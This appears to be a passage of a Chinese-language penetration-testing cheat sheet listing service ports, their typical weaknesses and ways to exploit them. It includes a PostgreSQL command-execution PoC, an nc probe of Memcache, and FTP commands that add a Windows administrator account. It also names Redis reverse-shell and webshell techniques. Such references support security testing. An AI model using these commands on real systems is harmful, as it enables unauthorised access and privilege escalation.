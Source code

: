 **5432 端口（ PostgreSQL）**

```
安全漏洞：弱口令、高权限命令执行
利用方式：攻击者通过弱口令获取账号信息，连入postgres中，可执行系统命令。
PoC参考：    
DROP TABLE IF EXISTS cmd_exec;    
CREATE TABLE cmd_exec(cmd_output text);    
COPY cmd_exec FROM PROGRAM 'id';    
SELECT * FROM cmd_exec;
```

**5984 端口（CouchDB）**

```
安全漏洞：垂直权限绕过、任意命令执行
利用方式：通过构造数据创建管理员用户，使用管理员用户登录，构造恶意请求触发任意命令执行。
后台访问：http://<target>:5984/_utils
```

**6379 端口（Redis）**

```
安全漏洞：未授权访问
利用方式：绝对路径写webshell 、利用计划任务执行命令反弹shell、公私钥认证获取root权限、主从复制RCE等。
```

**9200 端口（elasticsearch）**

```
安全漏洞：未授权访问、命令执行
检测方式：
1、直接访问如下url，获取相关敏感信息。  
http://<target>:9200/_nodes
查看节点数据  http://<target>:9200/_river  查看数据库敏感信息
2、通过构造特定的数据包，执行任意命令。
```

**11211 端口（MemCache）**

```
安全漏洞：未授权访问
检测方式：无需用户名密码，可以直接连接memcache 服务的11211端口。
nc -vv <target> 11211
```

**27017 端口（Mongodb）**

```
安全漏洞：未授权访问、弱口令
利用方式：未授权访问/弱口令，远程连入数据库，导致敏感信息泄露。
```

### **4、常见协议端口**

**21 端口（FTP)**

```
安全漏洞：
1、配置不当    
2、明文传输    
3、第三方软件提权
利用方式：
1、匿名登录或弱口令
2、嗅探ftp用户名和密码
3、Serv-U权限较大的账号可导致系统命令执行。
FTP提权命令：  
# 增加系统用户   
Quote site exec net user 4567 4567 /add  
# 提升到管理员权限   
Quote site exec net localgroup administrators 4567 /add
```